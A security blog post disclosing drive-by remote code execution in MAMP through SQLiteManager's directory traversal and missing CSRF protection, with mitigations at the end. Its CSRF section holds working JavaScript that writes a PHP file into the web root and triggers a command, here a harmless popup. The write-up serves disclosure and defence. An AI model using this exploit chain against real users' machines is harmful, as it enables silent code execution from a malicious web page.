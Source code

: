 ```yaml
---
layout: post
title: "Drive-by remote code execution in MAMP"
thumbnail: elephant-240.jpg
date: 2017-07-19
---
```


MAMP is an Apache, MySQL, and PHP stack for Mac OS X. It comes with SQLiteManager, which has several vulnerabilities. This post describes how to exploit these vulnerabilities to execute code when a user of MAMP visits a malicious web site.

## MAMP

MAMP is a web stack that can be installed on Mac OS X. It installs the Apache web server that runs on port 8888 by default. Also included are some database management programs, such as phpMyAdmin and SQLiteManager.

## SQLiteManager

[SQLiteManager](https://sourceforge.net/projects/sqlitemanager/) is a tool like phpMyAdmin for SQLite databases. It can create new databases, add tables to databases and run SQL queries on them. It has not been updated since 2013 and contains some [known](https://packetstormsecurity.com/files/134272/SQLiteManager-1.2.4-Cross-Site-Scripting.html) [vulnerabilities](http://www.cvedetails.com/vulnerability-list/vendor_id-6201/product_id-10501/year-2008/opec-1/Sqlite-Manager-Sqlite-Manager.html).

### Directory traversal

SQLiteManager can create new databases. An SQLite database is contained in a single file, and when creating the database it is possible to supply the filename for the new database. This file is then created in the directory `/Applications/MAMP/db/sqlite`. However, by adding `../` to the filename we can place the database one directory higher.

We can also use this to get a file containing PHP code in the web root. By supplying a file name like `../../htdocs/script.php`, we can place a file `script.php` in the web root. Then, using SQLiteManager, we create a table and add a row containing our PHP code. The file `script.php` will be a valid SQLite database file, containing PHP code that is run when the file is accessed.

![Create a new database in the webroot with the name script.php](/images/sqlitemanager-create-database.png "Create a new database in the webroot with the name script.php")

![Add PHP code to the file](/images/sqlitemanager-insert-phpcode.png "Add PHP code to the file")

![Accessing the script runs the PHP code](/images/sqlitemanager-run-phpinfo.png "Accessing the script runs the PHP code")

### CSRF

SQLiteManager does not have any CSRF protection, so the steps mentioned above can also be executed using CSRF. We can issue POST requests using Javascript to create the database and add data to it, and then issue a request to the resulting file. This makes it possible to run code on a victim that has MAMP installed and enabled when the victim visits a malicious site.

For example, the following Javascript issues a request that creates a database:

    let formData = new FormData();
    formData.append("dbname", "somename");
    formData.append("dbVersion", 3);
    formData.append("dbpath", "../../htdocs/script.php");
    formData.append("action", "saveDb");

    fetch("http://localhost:8888/sqlitemanager/main.php", {
        method: "POST",
        body: formData
    });

After creating a table, we insert a payload:

    let payload = "<?php `osascript -e 'tell application (path to frontmost application as text) to display dialog \"Remote code execution on MAMP\" with icon stop'`; ?>";
    let formData = new FormData();
    formData.append("funcs[test]", "");
    formData.append("valField[test]", payload);
    formData.append("action", "saveElement");
    formData.append("currentPage", "");
    formData.append("after_save", "properties");

    return fetch("http://localhost:8888/sqlitemanager/main.php?dbsel=1&table=test", {
        method: "POST",
        body: formData
    }).catch(e => e);

The `dbsel` number is the number corresponding to the database we just created. Although we don't know this, we can just try all numbers between 0 and 50 and hope that we hit the correct one.

When we trigger a request to the file, the execution of the `osascript` command shows the popup:

![Popup is shown by running code](/images/sqlitemanager-rce-popup.png "Popup is shown by running code")

## Conclusion

By combining CSRF and directory traversal we can trigger remote code execution, if the victim just visits a web site with malicious Javascript. 

An immediate solution to this would be to disable SQLiteManager. MAMP users can do this themselves by editing `/Applications/MAMP/conf/apache/httpd.conf`. Unless someone takes over the maintenance for SQLiteManager, it is unlikely that the vulnerabilities get fixed.

A broader solution is to disallow requests from the public Internet to private RFC1918 IP addresses. There is currently [a proposal](https://wicg.github.io/cors-rfc1918/) to refuse such requests by default, and to create a new CORS headers to explicitly allow it.

